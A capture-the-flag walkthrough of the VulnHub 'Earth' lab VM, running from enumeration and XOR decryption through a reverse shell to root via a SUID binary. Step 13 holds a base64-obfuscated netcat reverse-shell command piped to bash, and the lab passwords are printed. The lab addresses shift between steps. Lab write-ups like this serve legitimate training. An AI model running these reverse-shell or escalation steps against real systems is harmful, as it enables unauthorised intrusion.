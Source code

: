 ## Full Walkthrough: Earth VulnHub CTF

**By: Houston Jones**

### Step 1: Network Discovery
Used `sudo arp-scan -l` to discover devices on the local network.

### Step 2: Port Scanning
Ran `nmap -sV -Pn 10.0.2.6` and found ports 22, 80, and 443 open.

### Step 3: DNS and Service Detection
Used `sudo nmap -p- -sC -sV -T4 192.168.56.104` to scan for additional services.
Discovered two DNS names: `earth.local` and `terratest.earth.local`.

### Step 4: Configure Hosts File
Edited `/etc/hosts` with:
```
192.168.56.104  earth.local
192.168.56.104  terratest.earth.local
```

### Step 5: Web Reconnaissance
Visited `earth.local`, saw encrypted messages. Added a new message.

### Step 6: Directory Brute Force
Used Gobuster:
```
gobuster dir --url https://earth.local -w /usr/share/wordlists/dirb/common.txt -k
```
Discovered `/admin` page.

### Step 7: Admin Page
Visited `https://earth.local/admin` and found a login portal.

### Step 8: Explore Second Domain
Visited `https://terratest.earth.local` — displayed “Test site, please ignore.”
Ran Gobuster on this domain:
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
Discovered `robots.txt` and `testingnotes.txt`.

### Step 9: Analyze Notes
Found encryption used was XOR. Prepared to decrypt the encrypted messages from earlier.

### Step 10: Decryption Using CyberChef
Used 'From Hex' + 'XOR' operations in CyberChef.
Decoded final message: `earthclimatechangebad4humans`

### Step 11: Login to Admin Portal
Used:
```
Username: terra
Password: earthclimatechangebad4humans
```
Gained access to CLI-like command box.
Ran `ls /var/earth_web` and found `user_flag.txt`

### Step 12: Capture User Flag
Ran `cat /var/earth_web/user_flag.txt` to view contents.

### Step 13: Establish Reverse Shell
Started listener:
```
nc -lvnp 4444
```
Ran:
```
echo 'bmMgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg' | base64 -d | bash
```

### Step 14: Reverse Shell Confirmed
Adjusted the payload to include `/s` and verified shell with `whoami` → got `apache`.

### Step 15: Check SUID Binaries
Looked for SUID binaries for privilege escalation. Initially missed `reset_root` because I wasn’t in bash.

### Step 16: Executing reset_root
Ran `reset_root`, confirmed remote access. Required password for root.

### Step 17: Analyze Binary with ltrace
Made `reset_root` executable, ran with ltrace.
Discovered it checks for three specific access files.
Created those files, reran reset_root.
Found root password: `Earth`

### Step 18: Root Access
Switched to root with password `Earth`, verified with `whoami`.
Listed directory, found and displayed the final flag.

Successfully completed Earth VM CTF!
